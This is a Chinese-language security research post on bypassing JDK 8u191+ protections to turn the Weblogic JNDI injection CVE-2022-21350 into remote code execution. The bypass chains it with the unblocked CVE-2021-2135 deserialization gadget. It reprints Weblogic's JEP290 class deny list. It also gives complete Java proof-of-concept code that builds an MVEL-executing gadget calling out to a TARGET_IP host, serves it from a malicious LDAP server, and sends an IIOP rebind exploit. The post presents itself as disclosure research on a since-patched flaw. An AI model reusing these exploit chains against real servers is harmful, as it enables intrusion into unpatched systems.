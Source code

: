 Weblogic在2022年的补丁中，给一个JNDI注入的漏洞（CVE-2022-21350）CVSS评分定为6.5，根据漏洞发现者的描述，官方认为高版本的Weblogic中，提示了需要使用1.8.0\_191之上的JDK才足够安全，官方认为虽然可以JNDI注入，但是无法造成实际的影响。

![image_iZFZsUD1Wf.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-c495e0a465bddd940aa957f71ea2af2e8957ea98.png)

高版本的JDK禁止了直接利用RMI、LDAP等协议进行任意代码执行，同时使程序受JEP290保护，JDK中提供了一个setInternalObjectInputFilter，用户可以自行对这个filter进行定义。这个filter也是Weblogic把JNDI注入不当回事的底气。

但是经过研究，我发现了一种可以在高版本的JDK中进行Weblogic JNDI注入导致RCE的利用方法，当然这个方法在22-23年的某个补丁中被修复了。

高版本的限制
------

常规的高版本JDK JNDI注入，包含两种方法：

- 利用Tomcat的`BeanFactory`进行恶意类加载
- 利用LDAP的javaSerializedData属性进行反序列化

在Weblogic中不包含Tomcat相关依赖，因此我们重点关注第二种方法。Weblogic中存在众多的反序列化链，并且大多数链的修复方法都是将其加入黑名单。此处进行测试，随便使用一种反序列化链，在LDAP反序列化中进行使用，会发现反序列化失败，同时weblogic的日志中出现如下记录。可以看到是在ObjectInputFilter中对java.rmi.server.RemoteObjectInvocationHandler关键类进行了拒绝。

![Inkedimage__FqbDtMVCa.jpg](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-0ce8e3cdecf08676dc3cd35fc0a1ff9b12977c79.jpg)  
这是JDK的反序列化机制，用户可以自行定义类实现ObjectInputFilter接口，从而在反序列化的过程中建立一个白名单。 下图是从JNDI注入到程序进行反序列化类检查过程的调用链。

![image_OHTACQ9yzo.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-ed5413354f8c36b84a7a3d5564fa1fa37b7e0376.png)

其中在ObjectInputStream.filterCheck函数中进行了用户自定义InputFIilter类的调用。最终的检查是一个list逐个进行匹配。

![image_O5NEPWUgwl.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-78c22fa3182b94ddd44957bc2cf9d4cbe85e6b78.png)

黑名单的类如下：

```http
!org.codehaus.groovy.runtime.ConvertedClosure;!org.codehaus.groovy.runtime.ConversionHandler;!org.codehaus.groovy.runtime.MethodClosure;!org.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.UnicastRemoteObject;!java.rmi.server.RemoteObjectInvocationHandler;!com.bea.core.repackaged.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.RemoteObject;!com.tangosol.coherence.rest.util.extractor.MvelExtractor;!java.lang.Runtime;!oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor;!org.eclipse.persistence.internal.descriptors.MethodAttributeAccessor;!org.eclipse.persistence.internal.descriptors.InstanceVariableAttributeAccessor;!oracle.jdbc.pool.OraclePooledConnection;!org.apache.commons.collections.functors.*;!com.sun.org.apache.xalan.internal.xsltc.trax.*;!javassist.*;!java.rmi.activation.*;!sun.rmi.server.*;!org.jboss.interceptor.builder.*;!org.jboss.interceptor.reader.*;!org.jboss.interceptor.proxy.*;!org.jboss.interceptor.spi.metadata.*;!org.jboss.interceptor.spi.model.*;!com.bea.core.repackaged.springframework.aop.aspectj.*;!com.bea.core.repackaged.springframework.aop.aspectj.annotation.*;!com.bea.core.repackaged.springframework.aop.aspectj.autoproxy.*;!com.bea.core.repackaged.springframework.beans.factory.support.*;!org.python.core.*;!com.bea.core.repackaged.aspectj.weaver.tools.cache.*;!com.bea.core.repackaged.aspectj.weaver.tools.*;!com.bea.core.repackaged.aspectj.weaver.reflect.*;!com.bea.core.repackaged.aspectj.weaver.*;!com.oracle.wls.shaded.org.apache.xalan.xsltc.trax.*;!oracle.eclipselink.coherence.integrated.internal.querying.*;!oracle.eclipselink.coherence.integrated.internal.cache.*
```

寻找可用链
-----

用这份黑名单类和WebLogicFilterConfig中的封禁类做对比，发现如下两个变量里的类并没有被加如这个黑名单。

用这份黑名单类和WebLogicFilterConfig中的封禁类做对比，发现如下两个变量里的类并没有被加如这个黑名单。

```java
private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_CLASSES = new String[]{"com.tangosol.util.extractor.ReflectionExtractor", "com.tangosol.util.extractor.ComparisonValueExtractor", "com.tangosol.util.extractor.ConditionalExtractor", "com.tangosol.util.extractor.ReflectionUpdater", "com.tangosol.util.extractor.ScriptValueExtractor", "com.tangosol.util.extractor.UniversalExtractor", "com.tangosol.util.extractor.UniversalUpdater", "com.tangosol.internal.util.SimpleBinaryEntry", "com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache$Storage$BinaryEntry"};

private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_PACKAGES = new String[]{"com.tangosol.internal.util.invoke", "com.tangosol.internal.util.invoke.lambda", "com.tangosol.coherence.rest.util.extractor", "com.tangosol.coherence.rest.util", "com.tangosol.coherence.component.application.console"};

```

其中com.tangosol.util.extractor.ReflectionExtractor、com.tangosol.util.extractor.ComparisonValueExtractor在之前的CVE-2020-2883出现过，但是ReflectionExtractor中存在补丁

![image_0CtmynyWNg.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-b72bb5a69b7139e7aa630a423f6ed294f243afe5.png)

无法再利用该类进行利用。

com.tangosol.util.extractor.UniversalExtractor出现在CVE-2020-14645，但是这条链的sink点依然是JNDI注入，因此也不再考虑。而com.tangosol.internal.util.SimpleBinaryEntry和com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache\\$Storage\\$BinaryEntry ，被分别使用在了CVE-2021-2135和CVE-2021-35617。这两条链都属于二次反序列化，最终的sink点都是使用MvelExtractor直接执行java代码，因此理论上是可以使用的。但是在实际的测试中我发现，CVE-2021-35617的补丁点不单单是加入黑名单，同时是直接去除了一个重要类的serialize继承接口，导致整条无法使用。因此最后确定的可使用链就为CVE-2021-2135。

经过实际的测试，的确可以在JDK1.8u191及以上的版本中实现RCE。

![Inkedimage_KPx5R5L4em.jpg](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-578cef86494367280954e9c554b31f0a12bf3df8.jpg)

漏洞复现
----

使用如下代码，序列化CVE-2021-2135的POC。其中POC为发起一个URL请求，请求地址为http://TARGET\_IP/1234567

```java
public static Object getObject(String command) throws Exception {

    String cmd="new java.net.URL(\""+command+"\").openStream();";
    MvelExtractor mvelExtractor =new MvelExtractor();
    Reflections.setFieldValue(mvelExtractor,"m_sExpr",cmd);

    TopNAggregator.PartialResult partialResult =new TopNAggregator.PartialResult();

    Reflections.setFieldValue(partialResult,"m_comparator",mvelExtractor);
    Reflections.setFieldValue(partialResult,"m_cMaxSize",5);
    partialResult.add("123");

    ByteArrayWriteBuffer bufferOutput =new ByteArrayWriteBuffer(new byte[4096]);
    WriteBuffer.BufferOutput b =  bufferOutput.getBufferOutput();
    b.write((byte)10);
    ExternalizableHelper.writeExternalizableLite(b,partialResult);

    b.flush();
    DefaultSerializer defaultSerializer = new DefaultSerializer();
    Binary binary =new Binary(bufferOutput.toByteArray());
    SimpleBinaryEntry simpleBinaryEntry =new SimpleBinaryEntry();
    Reflections.setFieldValue(simpleBinaryEntry,"m_binKey",binary);
    Reflections.setFieldValue(simpleBinaryEntry,"m_serializer",defaultSerializer);
    XString xString =new XString("");
    InflatableMap inflatableMap =new InflatableMap();
    inflatableMap.put(simpleBinaryEntry,"456");
    inflatableMap.put("test","4657");
    Object o =  ((Object[]) Reflections.getFieldValue(inflatableMap,"m_oContents"))[1];
    Reflections.setFieldValue(o,"key",xString);
    ConditionalPutAll conditionalPutAll =new ConditionalPutAll();

    Reflections.setFieldValue(conditionalPutAll,"m_map",inflatableMap);
    AttributeHolder attributeHolder =new AttributeHolder();
    Reflections.setFieldValue(attributeHolder,"m_oValue",conditionalPutAll);

    return  attributeHolder;

}

public static void main(String[] args) throws Exception{
    ExternalizableHelper.setObjectStreamFactory(new WLSObjectStreamFactory());
    byte[] ser =Serializer.serialize(getObject("http://TARGET_IP/1234567"));
    System.out.println(Base64.encodeBase64String(ser));
}
```

将生成的base64字符串复制到[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo "https://github.com/kxcode/JNDI-Exploit-Bypass-Demo")项目的HackerLDAPRefServer类的sendResult方法的e.addAttribute语句中

![image_aJOuhpERTE.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-69ef80fd6ca374db7fe584114e5136e049d46066.png)

然后使用maven编译这个项目，并放到测试机上。

![Inkedimage_wEmL0blj5m.jpg](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-b58df66f992c24bb1f0bf9268490772c2540fb89.jpg)

在攻击机上使用CVE-2022-21350的POC进行攻击。其中回连的JNDI地址为ldap://TARGET\_IP/aer

```java
public static Object getPrivateObject(String className) throws Exception{
    Field singleoneInstanceField = Unsafe.class.getDeclaredField("theUnsafe");
    singleoneInstanceField.setAccessible(true);
    Unsafe unsafe = (Unsafe)singleoneInstanceField.get(null);
    Class clzz = Class.forName(className);
    return unsafe.allocateInstance(clzz);
}

public static Object getOBject() throws Exception{

    BadAttributeValueExpException badAttributeValueExpException =new BadAttributeValueExpException(null);
    FileSessionData sessionData = (FileSessionData)getPrivateObject("weblogic.servlet.internal.session.FileSessionData");
    Reflections.setFieldValue(sessionData,"isValid",true);
    HashMap map = new HashMap();
    Properties props = new Properties();
    Name name = new CompoundName("ldap://TARGET_IP/aer",props);
    HomeHandleImpl homeHandle = new HomeHandleImpl();
    Reflections.setFieldValue(homeHandle,"jndiName",name);
    Reflections.setFieldValue(homeHandle,"serverURL","t3://127.0.0.1:7001");
    BusinessHandleImpl b =new BusinessHandleImpl();
    Reflections.setFieldValue(b,"homeHandle",homeHandle);
    AttributeWrapper attributeWrapper= new AttributeWrapper(b);
    map.put("wl_debug_session",attributeWrapper);
    Reflections.setFieldValue(attributeWrapper,"isEJBObjectWrapped",true);
    Reflections.setFieldValue(sessionData,"attributes",map);
    Reflections.setFieldValue(sessionData,"internalAttributes",new Hashtable<>());
    Reflections.setFieldValue(badAttributeValueExpException,"val",sessionData);
    return  badAttributeValueExpException;

}
public static void main(String[] args) {
    try {
        String ip = args[0];
        String port = args[1];
        String rhost = String.format("iiop://%s:%s", ip, port);
        Hashtable<String, String> e = new Hashtable<String, String>();
        e.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        e.put("java.naming.provider.url", rhost);
        Context context = new InitialContext(e);
        context.rebind("test", getOBject());

    } catch (Exception ex) {
        ex.printStackTrace();

    }
}
```

执行该POC后，在目标机上成功收到该请求。

![Inkedimage_eDywM-pC2x.jpg](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-9fe8f3cd782c3bfc97cd38c0d9ff842ea13d92a2.jpg)